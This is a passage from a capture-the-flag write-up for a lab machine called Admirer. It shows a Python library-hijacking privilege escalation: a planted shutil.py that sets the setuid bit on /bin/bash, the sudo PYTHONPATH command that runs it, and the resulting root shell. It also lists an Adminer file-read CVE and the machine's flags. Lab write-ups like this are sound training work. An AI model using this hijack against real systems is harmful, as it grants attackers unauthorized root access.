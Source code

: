 ```shell
['', '/tmp', '/usr/lib/python35.zip', '/usr/lib/python3.5', '/usr/lib/python3.5/plat-x86_64-linux-gnu', '/usr/lib/python3.5/lib-dynload', '/usr/local/lib/python3.5/dist-packages', '/usr/lib/python3/dist-packages']
```
Now, when python looks for shutil, it will look first at `/tmp` and then the rest of the original folders. But this variable export is just for waldo user. In order to set this path for root we can use:
- New `shutil.py` script:
```py
import os

def make_archive(a,b,c):
	os.system("chmod +s /bin/bash")
	print("[+] System successfuly pwnd!")
```
- Malicious execution:
```shell
waldo@admirer:/tmp$ sudo PYTHONPATH=/tmp /opt/scripts/admin_tasks.sh 

[[[ System Administration Menu ]]]
1) View system uptime
2) View logged in users
3) View crontab
4) Backup passwd file
5) Backup shadow file
6) Backup web data
7) Backup DB
8) Quit
Choose an option: 6
Running backup script in the background, it might take a while...
[+] System successfuly pwnd!
waldo@admirer:/tmp$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1099016 May 15  2017 /bin/bash
waldo@admirer:/tmp$ bash -p
bash-4.4# whoami
root
bash-4.4# hostname -I
10.10.10.187 dead:beef::250:56ff:feb9:2294
```
We obtained `root` user on admirer machine.

## CVE
### [CVE-2021-43008](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-43008)
Improper Access Control in Adminer versions 1.12.0 to 4.6.2 (fixed in version 4.6.3) allows an attacker to achieve Arbitrary File Read on the remote server by requesting the Adminer to connect to a remote MySQL database. 

## Machine flags
| Type | Flag | Blood | Date |
| :-: | :-: | :-: | :-: |
| User | d54cd0b2562a41ec2b372ee7c1e2e7b8 | No | 28-06-2022|
| Root | b2c5bcbceb7f4b67e62afd905a5875b4 | No | 28-06-2022|

## References
- https://www.acunetix.com/vulnerabilities/web/adminer-4-6-2-file-disclosure-vulnerability/
- https://medium.com/analytics-vidhya/python-library-hijacking-on-linux-with-examples-a31e6a9860c8
